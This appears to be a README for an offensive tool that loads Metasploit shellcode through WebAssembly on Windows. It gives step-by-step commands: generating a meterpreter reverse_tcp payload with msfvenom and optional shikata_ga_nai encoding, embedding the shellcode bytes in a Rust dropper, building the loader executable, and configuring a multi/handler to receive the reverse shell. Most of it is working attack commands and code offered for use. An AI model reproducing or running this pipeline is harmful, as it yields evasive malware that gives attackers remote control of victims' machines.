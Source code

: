 # Metasploit WASM Executor

This project provides a WASM-based shellcode loader with an optional GUI for automation.

## 🚀 Quick Start with GUI (Recommended)

For the easiest experience, use the included GUI that automates all manual steps:

```bash
cargo run -p wasm_gui
```

The GUI will guide you through:
- Tool installation and verification
- Payload configuration (IP/Port)
- Complete build pipeline automation
- Error handling and status updates

See [wasm_gui/README.md](wasm_gui/README.md) for detailed GUI documentation.

## 📋 Manual Setup (Advanced Users)

## Dependencies
```sh
cargo install wasm-pack
```

## Install `Wasm2Wat` Windows
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-windows.tar.gz
mkdir wabt && tar -xzf wabt.tar.gz -C wabt --strip-components 1
```

## Install `Wasm2Wat` Linux
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-ubuntu-20.04.tar.gz
mkdir wabt && tar -xzf wabt.tar.gz -C wabt --strip-components 1
```

- First, we need to get some shellcode from Metasploit
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f rust # -e x86/shikata_ga_nai -i {number of iterations} # OPTIONAL (For heavier encoding) 
```

- Copy the output from that command into `./wasm_dropper/src/lib.rs` 
- Name it `WASM_MEMORY_BUFFER` and change the const to be static
- `WASM_MEMORY_BUFFER` should have the following signature:

```rust
static WASM_MEMORY_BUFFER: [u8; WASM_MEMORY_BUFFER_SIZE] = [
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,
    ...
];
```

## Build the wasm binary
```sh
cd wasm_dropper && wasm-pack build --release && cd ..
```

## Now convert the wasm binary from .wasm to .wat using `wasm2wat`
```sh
./wabt/bin/wasm2wat.exe ./target/wasm32-unknown-unknown/release/wasm_dropper.wasm -o ./wasm_loader/src/wasm_dropper.wat
```

## Now build the Loader
```sh
cd wasm_loader && cargo build --release && cd ..
```

## The Loader Binary is now in `./target/release/wasm_loader.exe`

## Make sure we have a Metasploit handler running
```sh
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
set EnableStageEncoding true
exploit -j
```

